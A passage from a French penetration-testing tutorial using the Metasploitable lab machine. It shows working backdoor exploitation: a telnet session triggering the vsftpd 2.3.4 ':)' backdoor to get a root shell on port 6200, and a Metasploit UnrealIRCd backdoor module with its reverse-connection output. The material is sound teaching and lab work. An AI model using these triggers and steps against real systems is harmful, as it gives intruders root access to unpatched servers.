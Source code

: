 ```text
 
root@metasploitable:~# 
```

### 3. Services : Backdoors

Sur le port 21, Metasploitable fait tourner **vsftpd**, le FTP que nous avons configuré au chapitre Machines virtuelles et services. Cette version, ici la version 2.3.4, comporte une backdoor qui a été ajoutée au service par un intrus. La version contenant la backdoor a été mise à disposition sur le web et s’est donc propagée.

La backdoor a été très vite identifiée et enlevée, mais pas assez rapidement puisque beaucoup de personnes ont eu le temps de télécharger la version concernée.

Si un nom qui se termine par « :\) » est envoyé, la backdoor ouvre le port 6200 et lance un shell en écoute sur ce port.

Nous pouvons démontrer cela avec telnet ou utiliser un module de Metasploit pour l’exploiter automatiquement :

```text

root@ubuntu:~# telnet 192.168.1.131 21 
Trying 192.168.1.131... 
Connected to 192.168.1.131. 
Escape character is 'ˆ]'. 
220 (vsFTPd 2.3.4) 
user backdoored:) 
331 Please specify the password. 
pass invalid 
ˆ] 
telnet> quit 
Connection closed. 
 
root@ubuntu:~# telnet 192.168.1.131 6200 
Trying 192.168.1.131... 
Connected to 192.168.1.131. 
Escape character is 'ˆ]'. 
id; 
uid=0(root) gid=0(root)
```

Sur le port 6667 de Metasploitable tourne un démon IRC, UnreaIRCD. Cette version contient une backdoor qui n’a pas été identifiée pendant des mois, déclenchée lorsque les lettres « AB » suivies par une commande système lui sont envoyées sur n’importe quel port en écoute. Metasploit a un module qui l’exploite afin d’obtenir un shell interactif comme montré ci-dessous.

```text
Msfconsole 
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor 
msf  exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.1.131 
msf  exploit(unreal_ircd_3281_backdoor) > exploit  
[*] Started reverse double handler 
[*] Connected to 192.168.1.131:6667... 
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your 
hostname... 
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your 
hostname; using your IP address instead 
[*] Sending backdoor command... 
[*] Accepted the first client connection... 
[*] Accepted the second client connection... 
[*] Command: echo 8bMUYsfmGvOLHBxe; 
[*] Writing to socket A 
[*] Writing to socket B 
[*] Reading from sockets... 
[*] Reading from socket B 
```